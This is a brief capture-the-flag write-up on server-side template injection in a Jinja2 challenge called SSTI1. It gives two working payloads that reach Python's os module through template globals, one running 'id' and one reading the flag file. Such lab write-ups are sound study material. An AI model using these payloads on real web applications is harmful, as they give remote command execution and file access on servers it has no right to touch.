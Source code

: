 # SSTI1

When I input `{ 7 * 7}`, the response is `49`.

I can execute commands with SSTI.
```
{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}
```

![ssti1_1](./ssti1_1.png)

I can read the flag.
```
{{request.application.__globals__.__builtins__.__import__('os').popen('cat flag').read()}}
```

## References
- https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/
